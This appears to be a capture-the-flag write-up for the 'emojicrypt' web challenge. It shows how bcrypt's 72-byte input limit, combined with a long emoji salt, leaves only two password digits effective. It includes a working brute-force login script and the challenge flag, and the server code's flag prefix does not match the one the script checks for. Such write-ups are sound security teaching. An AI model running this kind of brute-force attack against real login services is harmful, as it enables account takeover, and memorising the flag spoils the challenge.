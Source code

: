 # emojicrypt

## Description

Passwords can be more secure. We’re taking the first step.

`http://52.188.82.43:8060`

## Source code analysis

```python
from flask import Flask, request, redirect, url_for, g
import sqlite3
import bcrypt
import random
import os
from dotenv import load_dotenv
load_dotenv()

app = Flask(__name__, static_folder='templates')
DATABASE = 'users.db'
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
NUMBERS = '0123456789'
database = None

def get_db():
    global database
    if database is None:
        database = sqlite3.connect(DATABASE)
        init_db()
    return database

def generate_salt():
    return 'aa'.join(random.choices(EMOJIS, k=12))

def init_db():
    with app.app_context():
        db = get_db()
        cursor = db.cursor()
        cursor.execute('''CREATE TABLE IF NOT EXISTS users (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            email TEXT UNIQUE NOT NULL,
            username TEXT UNIQUE NOT NULL,
            password_hash TEXT NOT NULL,
            salt TEXT NOT NULL
        )''')
        db.commit()

@app.route('/register', methods=['POST'])
def register():
    email = request.form.get('email')
    username = request.form.get('username')

    if not email or not username:
        return "Missing email or username", 400
    salt = generate_salt()
    random_password = ''.join(random.choice(NUMBERS) for _ in range(32))
    password_hash = bcrypt.hashpw((salt + random_password).encode("utf-8"), bcrypt.gensalt()).decode('utf-8')

    # TODO: email the password to the user. oopsies!

    db = get_db()
    cursor = db.cursor()
    try:
        cursor.execute("INSERT INTO users (email, username, password_hash, salt) VALUES (?, ?, ?, ?)", (email, username, password_hash, salt))
        db.commit()
    except sqlite3.IntegrityError as e:
        print(e)
        return "Email or username already exists", 400

    return redirect(url_for('index', registered='true'))

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    if not username or not password:
        return "Missing username or password", 400
    
    db = get_db()
    cursor = db.cursor()
    cursor.execute("SELECT salt, password_hash FROM users WHERE username = ?", (username,))
    data = cursor.fetchone()
    if data is None:
        return redirect(url_for('index', incorrect='true'))
    
    salt, hash = data
    
    if salt and hash and bcrypt.checkpw((salt + password).encode("utf-8"), hash.encode("utf-8")):
        return "squ1rrelctf{" + salt + password + "}"
    else:
        return redirect(url_for('index', incorrect='true'))

@app.route('/')
def index():
    return app.send_static_file('index.html')

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

if __name__ == '__main__':
    app.run(port=8000)
```

The challenge is a simple web app allowing users to register and login.
There is just a little problem: the `/register` endpoint is not accepting any passwords.
In fact, the handling function will generate a password for the user which is a random 32 long sequence of digits

```python
random_password = ''.join(random.choice(NUMBERS) for _ in range(32))
```

The password is prepended with a weird salt made of emojis and then hashed

```python
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
...
def generate_salt():
    return 'aa'.join(random.choices(EMOJIS, k=12))
...
password_hash = bcrypt.hashpw((salt + random_password).encode("utf-8"), bcrypt.gensalt()).decode('utf-8')
```

However, the user is not provided with the password and so is unable to login.
The flag is provided once the user correctly sign in the application.

## Exploit

The vulnerability to be exploited is the unsecure usage of `bcrypt.hashpw()` in the application.
According to official python `bcrypt` [documentation](https://pypi.org/project/bcrypt/):

    The bcrypt algorithm only handles passwords up to 72 characters, any characters beyond that are ignored

Brute-forcing all possible combinations of digits made passwords 32 long is unfeasible.
However the salt in this case is helping the exploit implementation.
In fact, each salt is a string with format:

    😩aa🎓aa🍅aa🎒aa🎁aa😀aa🎒aa🎵aa🌁aa😗aa😶aa🎁

Emojis are encoded in UTF-8, meaning that each emoji needs 4 bytes to be represented.
Between two different emojis 2 "a" characters are plae.
Each salt length is for this reason: **= 11 * 2 + 12 * 4 = 70** 

Considering the salt length and the `bcrypt` implementation details, the effective password hashed and stored is just given by 

```python
salt + random_password[:2]
```

It is possible to successfully login by brute-forcing all possible combinations of 2 digits passwords i.e. in the worst case in 100 attempts

```python
import requests
import random
import string

login_url = "http://52.188.82.43:8060/login"
register_url = "http://52.188.82.43:8060/register"

NUMBERS = '0123456789'
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
salt = 'aa'.join(random.choices(EMOJIS, k=12))
print(salt)
print(len(salt.encode()))
random_password = ''.join(random.choice(NUMBERS) for _ in range(32))
print(random_password)

username = "".join([random.choice(string.printable) for _ in range(10)])
email = "".join([random.choice(string.ascii_letters) for _ in range(10)]) + "@" "".join([random.choice(string.ascii_letters) for _ in range(10)]) + ".com"

requests.post(register_url, data={
    "username": username,
    "email": email,
})

for i in range(100):
    attempted_pwd = f"{i:02}"
    print(f"Trying password {i}: {attempted_pwd}")
    resp = requests.post(login_url, data={
        "username": username,
        "password": attempted_pwd
    })

    if "squ1rrel{" in resp.text:
        print(f"Found password: {attempted_pwd}")
        print(f"Flag: {resp.text}")
        break
```

`squ1rrel{turns_out_the_emojis_werent_that_useful_after_all}`
